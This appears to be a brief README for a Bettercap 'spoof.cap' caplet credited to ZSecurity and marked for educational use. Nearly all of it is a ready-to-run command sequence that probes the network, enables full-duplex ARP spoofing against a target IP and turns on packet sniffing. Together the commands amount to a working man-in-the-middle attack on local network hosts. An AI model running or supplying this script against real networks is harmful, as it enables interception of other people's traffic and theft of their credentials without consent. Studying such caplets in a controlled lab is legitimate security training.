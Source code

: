# Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on </br>
set arp.spoof.fullduplex true </br>
set arp.spoof.targets 10.0.2.7 (target IP here) </br>
arp.spoof on </br>
net.sniff on`
